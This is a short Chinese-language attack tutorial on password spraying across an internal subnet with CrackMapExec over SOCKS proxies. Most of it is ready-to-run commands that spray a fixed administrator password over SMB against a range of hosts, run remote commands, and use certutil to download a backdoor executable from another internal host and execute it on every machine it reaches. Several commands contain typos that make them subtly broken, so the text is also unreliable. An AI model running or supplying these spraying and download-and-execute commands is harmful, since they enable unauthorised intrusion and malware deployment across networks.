 密码喷洒自动化上线CME（CrackMapExec）
python脚本，Fscan Ladon也有类似功能。

Linux使用proxychains配置socks代理使用。
Windows使用proxifier配置socks代理使用。

## **使用smb横向喷洒**
192.168.3.21到32的ip主机

密码喷洒域登录：
proxychains python cme smb 192.168.3.21-32 -u administrator -p 'admin!@#45'

密码喷洒本地登录：
proxychains python cme smb 192.168.3.21-32 -u administrator -p 'admin!@#45' --local-auth

密码喷射本地登录命令执行：
proxychains python cme smb 192.168.3.21-32 -u administrator -p 'admin!@#45' -x 'whoami' --local-auth

^
进行下载后门程序，并运行的命令即可。
^

也可以将
ip列表.txt
账号列表.txt
密码列表.txx
进行鱼叉攻击。

^
密码喷洒本地&域登录命令执行全自动上线：
```
proxychains python cme smb 192:168.3.21-32 -u user txt -p pass.txt -x 
'cmd.exe /c certutil -urlcache -split -f http://192.168.3.31/4455.exe  c:/4455.exe & c:/4455.exe'

proxychains python cme smb 192.168.3.21-32 -u administrator -p pass.txt -x 
'cmd.exe /c certutil-urlcache -split -f http://192.168.3.31/4455.exe c:/4455.exe & c:/4455.exe' --local-auth
```
